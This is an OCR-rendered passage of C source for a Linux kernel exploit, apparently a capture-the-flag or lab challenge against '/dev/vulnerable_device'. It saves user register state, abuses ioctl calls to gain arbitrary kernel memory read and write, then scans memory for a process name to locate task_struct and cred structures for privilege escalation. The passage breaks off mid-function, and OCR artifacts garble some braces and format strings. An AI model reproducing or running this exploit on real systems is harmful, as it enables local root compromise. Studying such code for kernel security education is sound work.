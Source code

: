 ```
        "pushf;"
        "pop user_rflags;"
    );
    puts("[+] Save User Status");
    printf("user_cs = %pn",user_cs);
    printf("user_ss = %pn",user_ss);
    printf("user_rsp = %pn",user_rsp);
    printf("user_rflags = %pn",user_rflags);
    puts("[+] Save Success");
`}`

void exploit()`{`
    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
        return 0;
    `}`

    struct init_args i_args;
    struct realloc_args r_args;
    i_args.size=0x100;
    ioctl(fd, 0x8008FE07, &amp;i_args);

    r_args.grow=0;
    r_args.size=0x100+1;
    ioctl(fd, 0x8008FE08,&amp;r_args);
    puts("[+] We can read and write any memory! [+]");

    char target[16] = "This_is_target!";
    prctl(PR_SET_NAME,target);

    size_t cred = 0 , real_cred , target_addr;
    char *buff = malloc(0x1000);

    for (size_t addr=0xFFFF880000000000; addr&lt;0xFFFFC80000000000; addr+=0x1000)
    `{`
        struct seek_args s_args;
        struct read_args r_args;

        s_args.new_pos = addr - 0x10;
        ioctl(fd, 0x8008FE0A, &amp;s_args);

        r_args.buff = buff;
        r_args.count = 0x1000;
        ioctl(fd, 0xC008FE09, &amp;r_args);

        int result = memmem(buff,0x1000,target,16);
        if (result)
        `{`
            printf("[+] Find try2findmesauce at : %pn",result);
            cred = *(size_t *)(result - 0x8);
            real_cred = *(size_t *)(result - 0x10);
            if ((cred || 0xff00000000000000) &amp;&amp; (real_cred == cred))
            `{`
                target_addr = addr+result-(long int)(buff);
                printf("[+] found task_struct 0x%xn",target_addr);
                printf("[+] found cred 0x%lxn",real_cred);
                break;
            `}`
        `}`
    `}`
    if (cred==0)
    `{`
```